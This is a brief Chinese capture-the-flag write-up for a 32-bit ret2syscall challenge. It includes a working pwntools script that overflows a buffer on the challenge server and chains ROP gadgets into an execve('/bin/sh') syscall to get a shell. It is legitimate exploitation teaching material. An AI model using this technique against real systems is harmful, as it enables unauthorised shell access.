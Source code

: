# 挑战简介
32位的ret2syscall

# 思路
ret2syscall其实和前面的ret2libc有异曲同工的地方,只不过稍微要点汇编的基础以及指令之类的

构建rop顺序  

**对于32位**  
传入参数的寄存器顺序是：eax，ebx，ecx，edx，而具体寄存器的作用可以参考其作用表  

然后再用ROPgadget获取其地址，cyclic获取偏移量即可  
```
from pwn import *
from LibcSearcher import *
context.log_level = "debug"

context(os='linux', arch='i386', log_level='debug')

p = remote("pwn.challenge.ctf.show",28296)
elf = ELF('D:\edge 下载\pwn')

offset = 0x70

pop_eax = 0x080bb196

pop_ebx = 0x0806eb90

bin_sh = 0x080BE408

int_80 = 0x08049421

payload = flat([b'a'*offset, pop_ebx, 0, 0, bin_sh, pop_eax, 0xb, int_80])

p.sendline(payload)

p.interactive()

```
